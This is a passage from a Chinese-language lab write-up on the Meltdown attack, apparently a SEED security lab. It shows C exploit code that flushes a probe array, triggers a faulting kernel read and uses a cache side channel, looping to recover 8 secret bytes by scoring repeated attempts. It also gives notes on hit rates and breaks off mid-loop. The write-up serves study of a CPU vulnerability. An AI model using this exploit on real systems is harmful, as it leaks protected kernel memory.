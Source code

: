 ```C
    cnt += reloadSideChannel();
  }

  printf("[*]Get secret data percentage: %d/100\n", cnt);

  return 0;
}
```

输出的结果很不稳定，循环400次时可能会遇到100/100的命中率，也遇到过只命中了8次的情况。也试了50次和800次的情况，**理论上循环越多次就占用了ALU更多时间，命中率会更高。**

下面两张图都是循环400次的测试：

![image-20220409202617929](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311405.png)![image-20220409222149419](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311029.png)



####  Task 8: Make the Attack More Practical

> 创建一个大小为256的score[]数组，每个可能的秘密值对应一个元素。然后多次进行攻击。
>
> 每一次，如果输出k是秘密（这个结果可能是假的），score[k]++。在多次攻击之后，使用得分最高的值k作为对秘密的最终估计。这将产生一个比基于一次运行的估计更可靠的估计。

```terminal
gcc -march=native MeltdownAttack.c -o MeltdownAttack
```

首先测试了一下程序：

![image-20220409223225039](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311354.png)

然后修改代码写一个循环使其可以读到8个字节的secret，主要修改如下：

```c
  for (int k = 0; k < 8; k++)
  {
    memset(scores, 0, sizeof(scores));
    flushSideChannel();

    // Retry 1000 times on the same address.
    for (i = 0; i < 1000; i++)
    {
      ret = pread(fd, NULL, 0, 0);
      if (ret < 0)
      {
        perror("pread");
        break;
      }

      // Flush the probing array
      for (j = 0; j < 256; j++)
        _mm_clflush(&array[j * 4096 + DELTA]);

      if (sigsetjmp(jbuf, 1) == 0)
      {
        meltdown_asm(0xf90fc000 + k);	// 地址每次+1
      }

      reloadSideChannelImproved();
    }

    // Find the index with the highest score.
    int max = 0;
    for (i = 0; i < 256; i++)
    {
      if (scores[max] < scores[i])
        max = i;
```
